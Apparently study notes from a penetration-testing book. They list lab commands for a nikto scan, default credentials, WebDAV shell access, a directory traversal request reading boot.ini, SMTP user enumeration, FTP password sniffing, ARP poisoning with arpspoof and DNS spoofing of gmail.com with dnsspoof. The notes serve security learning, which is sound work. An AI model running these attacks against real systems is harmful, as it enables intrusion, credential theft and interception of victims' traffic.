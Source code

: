     nikto -h 10.0.0.123
    
**vulnerability discovery**
OSVDB http://osvdb.com is a great repository of opensource software, such as tikiwiki with detailed information.

Phpmyadmin is a great way to access a MySQL database, ofter as root.

**default credentials**
wampp:xampp

Cadaver is a webdav client used to obtain cli on a target:

    cadaver https://10.0.0.123/webdav

**information gathering**
Target = Zervit 0.4

    nc 192.168.0.123 3232
    GET / HTTP/1.1
    HTTP/1.1 200 OK
    Server: Zervit 0.4
    ...
    GET /../../../../../../../../boot.ini HTTP/1.1
    HTTP/1.1 200 OK
    ...
    WINDOWS="Microsoft Windows XP Home Edition"
    ...
    
**information gathering**
Finding Valid Credentials, valid email addresses can be done querying an SMTP server

    nc 192.168.0.10 25
    220 georgia.com SMTP Server SLmail
    VRFY georgia
    250 Georgia<georgia@>
    VRFY john
    551 User not local
    
## Chapter 7- Capturing traffic

Book explains how to use wireshark to capture an ftp login, filter for ftp, read password. Port number x0015 is 21, FTP.

**exploit**
Arp poisoning is used to mitm between client and server.

    echo 1 > /proc/sys/net/ipv4/ip_forward
    arpspoof -i eth0 -t 192.168.20.11 192.168.20.10
    arpspoof -i eth0 -t 192.168.20.10 192.168.20.11
    
**exploit**
DNS poisoning is used to inject DNS resolutions that are not legit.

    cat poisoned_host.txt
    192.168.20.9 www.gmail.com
    dnsspoof -i eth0 -f poisoned_host.txt
    